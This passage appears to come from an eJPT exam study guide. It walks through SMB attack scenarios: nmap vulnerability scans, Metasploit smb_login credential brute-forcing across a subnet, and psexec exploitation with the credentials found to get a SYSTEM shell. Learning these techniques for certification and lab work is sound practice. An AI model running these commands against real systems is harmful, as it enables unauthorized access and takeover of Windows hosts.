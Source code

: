 #### **Level 3 - Advanced (Might appear):**
```bash
# Vulnerability scanning - ADVANCED ASSESSMENT
nmap --script smb-vuln-* target
# Expected: Known vulnerability identification

# Multiple target scanning - EFFICIENT OPERATIONS  
set RHOSTS 192.168.1.0/24
set THREADS 10
exploit
# Expected: Network-wide credential testing
```

### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: Basic SMB Credential Attack**
**Given:** Windows system with SMB service exposed
**Your Job:** Find valid credentials and gain system access
**Time Limit:** 8-10 minutes

**How to Approach:**
```bash
# Step 1: Identify SMB service (2 minutes)
nmap -p445 target_ip
nmap --script smb-protocols target_ip

# Step 2: Launch credential attack (3 minutes)
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target_ip
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit

# Step 3: Exploit with found credentials (3 minutes)
use exploit/windows/smb/psexec
set RHOSTS target_ip
set SMBUser [found_username]
set SMBPass [found_password]
exploit

# Step 4: Verify system access (2 minutes)
shell
whoami
# Expected: SYSTEM or Administrator level access
```

#### **Scenario 2: Flag Capture Mission**
**Given:** Meterpreter session established via SMB exploitation
**Your Job:** Navigate file system and locate flag file
**Time Limit:** 5-7 minutes
